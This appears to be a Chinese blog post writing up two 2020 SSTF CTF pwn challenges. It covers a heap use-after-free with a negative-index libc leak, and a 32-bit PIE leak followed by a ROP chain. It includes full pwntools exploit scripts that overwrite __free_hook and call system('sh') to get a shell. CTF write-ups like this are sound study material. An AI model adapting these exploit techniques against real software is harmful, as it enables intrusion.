 ```yaml
---
layout:     post
title:      2020 ssctf(Hacker's Playground) wp
excerpt:    两个简单pwn题
date:       2020-08-19
author:     wxk1997
header-img: img/pwn-bg.png
catalog: true
tags:
    - ctf
    - pwn
categories:
    - writeup
---
```


# 前言

深刻地感受到自己变菜了. 两道非常简单的题目都没做出来. 一题是堆的uaf. 有个非常明显的整形溢出没有看到, 导致一直无法leak地址. 还有一题也是整形溢出可以, 需要在栈上构造rop链执行system("sh"), 也是卡住了. 太菜了 :(

# 正文

## T express

glibc 2.31. 保护全开. 有个 uaf 漏洞. 但是限制了只能malloc 7次. 通过另一个 off-by-one 漏洞可以实现 double free. 但是因为次数限制所以无法leak 地址. 卡了一会儿就去看别的题目了. 赛后学弟才在 show 功能中没有校验输入的索引是否为负数. 所以可以通过负的索引通过 stdout leak  lbic地址. 

```c
int index; // [rsp+Ch] [rbp-4h]

printf("Index of ticket: ");
index = read_l();
if ( index <= 6 && passes[index] ) {
    ...
}
```

没啥好说的, 就是菜. 不找借口. 

exp 如下:

```python
from pwn import *

filename = "./t_express"
ip = "t-express.sstf.site"
port = 1337

LOCAL = True if len(sys.argv)==1 else False

elf = ELF(filename)

remote_libc = "./libc.so.6"
if LOCAL:

    io = process(filename, env={'LD_PRELOAD': remote_libc}) 
    libc = ELF(remote_libc)
else:
    context.log_level = 'debug'
    io = remote(ip, port)
    libc = ELF(remote_libc)

def choice( idx):
    io.sendlineafter( "choice: ", str(idx))

def lg(name, val):
    log.info(name+" : "+hex(val))

def add( ticket_type, data1, data2):
    choice( 1)
    io.sendlineafter( " buy?\n", str(ticket_type))
    io.sendafter( "First name: ", data1)
    io.sendafter( "Last name: ", data2)

def show( idx):
    choice( 2)
    io.sendlineafter( "Index of ticket: ", str(idx))

def rm( idx, op=''):
    choice( 3)
    io.sendlineafter( "Index of ticket: ", str(idx))
    if op != '':
        io.sendlineafter( "1) meal 2) safari 3) gift 4) ride\n", op)

add( 1, '/bin/sh\n', 'a'*8)
add( 1, 'bb', 'aaa\n')
add( 1, 'bb', 'aaa\n')
add( 1, '/bin/sh\n', 'aaa\n')
rm( 2)

rm( 1)
rm( 0, '4')
rm( 1)

show( 1)
io.recvuntil( "|name |  ")
heap_addr = u64(io.recv( 6) + b'\0\0')
lg("heap_addr", heap_addr)

show( -8)
io.recvuntil( "|name |  ")
io.recv( 9)
libc_addr = u64(io.recv( 6) + b'\0\0')
lg("libc_addr", libc_addr)

libc.address = libc_addr - 0x1ec723

lg("libc base", libc.address)

fh = libc.symbols['__free_hook']
system = libc.symbols['system']

add( 1, p64(fh), '\n')
add( 1, p64(fh), '\n')
add( 1, p64(system), '\n')

rm( 3)

io.interactive()

```

## Eat the pie

32位程序, 开了pie. 栈上有函数指针, 因为输入结尾没有用 `\0` 截断所以是可以以leak 代码段地址的. 我tm又没看到. 这道不算什么. 问题是之后的构造过程也没构造出来. 思路太僵化了. 赛后看了一下别的队的题解, 就是先跳到 read 构造一个 rop chain 再通过 rop 执行 system("sh").

exp如下

```python
from pwn import *

# io = process("./eat_the_pie")
io = remote( "eat-the-pie.sstf.site" , 1337 )

io.sendlineafter("Select > ", "4"*15)
io.recvuntil("4"*15+'\n')
tmp = io.recv(4)
elf_base = u32(tmp) - 0x74d
print("elf base", hex(elf_base))

g1 = elf_base + 0x970
io.sendafter("Select > ", "-1 dabcdabcd"+p32(g1))

PebpR = elf_base + 0x00000a9b
system = elf_base + 0x5a0
sh_str = elf_base + 0x31a

payload = flat(system, 'aaaa', sh_str, 'aaaa', PebpR)

sleep(1)
io.sendline(payload)
```


# 结语

周日刚做出一道堆题就开始洋洋得意了, 结果这次连两道贼基础的题目都没做出来. 太菜了, 不要再飘飘然忘乎所以了, 老老实实刷题吧.


# 参考

1. [比赛平台](https://playground.sstf.site/challenges)
2. [参考题解](https://github.com/theori-io/ctf/blob/master/SSTF%20CTF%202020%20Write%20Up%20-%20The%20Duck.pdf)
3. [ctf-time](https://ctftime.org/event/1107)